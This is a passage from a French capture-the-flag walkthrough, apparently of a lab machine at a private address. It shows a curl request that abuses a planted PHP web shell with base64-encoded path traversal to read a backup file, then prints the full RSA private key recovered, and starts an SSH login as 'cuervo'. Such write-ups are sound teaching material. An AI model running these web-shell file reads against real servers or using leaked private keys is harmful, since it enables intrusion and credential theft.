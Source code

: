 ```php
Array
(
    [0] => .
    [1] => ..
    [2] => ascii
    [3] => b_gd214dg
    [4] => index.html
    [5] => v.php
)
```

Il s'agit d'un dossier dans lequel je trouve un fichier de backup. Voyons son contenu :

```bash
curl "http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vdmFyL21haWwvd3d3LWRhdGE=" --data "f=readfile&a=/var/www/b_gd214dg/foo.backup"
```

Il s'agit d'une clé privée SSH :

```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAz+YDrVu42bSrE+ryW4aGxAmTBs4PZvWvsLrLbibfo2cAEM3W
/0ZP1emISX7mUUW6cNfIqF+M/bkng4A0977UCIRPzPaQPHItjwDBqArHzPb0EPuc
bi70DybOsN/OIV8L1lCq45rmrwiAxC6eCtmcW+ExqsLJw98uTIUpuPQ/vu3XOiV1
leOeP2Fh5k1TYV6wg/HWemux7Z9aC8iaLkZ6wsM4s4uOdU7eiPh/6SH3ZEmusNKp
KjoxU8jSq6x/1tbMYfwp6YwCOGmtzKfQQRMqGk9V130vbfGcKALHV79qdsSCIcLI
CiGRc99Eh5k7fHVILx2VchCkktoeZc6Tou7mWQIDAQABAoIBABWidheASAg/yN3V
wUrNARE9fdNjdi7cul/F0I2x9evnOBaHlSwTgRNdrhUX45fpjbFYg0UiTGXK8tW4
bcqqTR5lxngp4HCp4RvUlFKMbKZjvJpX1LuSn0tEWpYFdEn8vhqbYm01HXRxihTg
VQoEA0V8ddKzWpPLkeHcqa7ZnBieL126vskEIZVmteorSAfRiwsYpH4zyLoT7xIt
DKABFiuKWuxoNjL30NAjvAJtdlhPrZhDhFNYF6O63/nGxTbeKg7qyHJgg7XsINz6
02z5T63uzhq767mShKtxnV+uyRlRmYLF3tdrhDf3arpHbd7z7K+/5HAY/r6EKhGB
wu8ujRECgYEA/jZxc7wxCx7c+mvqQe3E6MJgmNQhYKNVoTi83EJat5jWPA8GFXlr
AYTzYSy5KThGpqoUi1cJV2gT73LmoCzjTI07tGWL6L0VUjsceREkP0mBj0Zq8D+9
C+QSXkeC1UcIP/F1tpsW1AyjrlfeN4pbtQw3eoNNpCQhIRyfXAcfH7sCgYEA0Vw1
3V+rRSS11ABF2268qDOKWXhVxNVMiBkCelDnxuTWrDXlUYazOVuI8XXvdTfymATm
LvwD2G0J4bIjc/J+zPdBAijTRwjsgHaHklo/OJ62M4PuuErzA/RtAFzOMhX1giMc
gpiLR2hMJt04FPkW4rnstGIFQoPvK55S74C6vvsCgYBASAwQM/pC0Z8XQ8qMuU8d
fGlou9tk0GiKyAoZuD2wR1mE/lePfpBsZe4VGHYJ0k0rP77KLUwTaiIAXpGq1y7y
4JPEXhku1QFbNc9RXeBIkJHOZQQNlFB9fUKXzIVs4PVZFfmqHzV6kWeiYl2yta3S
7i/pLuKnKuulr9MsNjDMmQKBgQCjhmeYOqJ3Bj5zkab+xxbaNi+oxIIRlR0K7KXv
zgPLaXB34Dz2mcShV2q2VwyrPQDiVmlIZ5XFVR2zyMVCSjVaeQGw4xxrToATswEf
ghgBbI4Z3MH39qqr+x2se9CedGJnvG8HXojjRIa+kGm+j/SdMOW+2xUKqCyGoEpd
QeobQwKBgFhwph+eDPJFG+gNhDkH8xCebIo1n1deYdbUSXgeBzKpZ7PRbhuHiwQ4
orJfIQ1p36pShXtT6SINRO5B/s1jXVwDTEc0ISsdwwpOpNHlSRUJg2d2S1bAH+TO
w3WLPIahFHMy0GVmfSngkbEAJjVmqOHIH3Q0A/pfJaGztQL7okOt
-----END RSA PRIVATE KEY-----
```

## Ping Pong

J'arrive à l'utiliser avec le compte `cuervo`. La machine étant agée il faut passer une option supplémentaire à SSH :
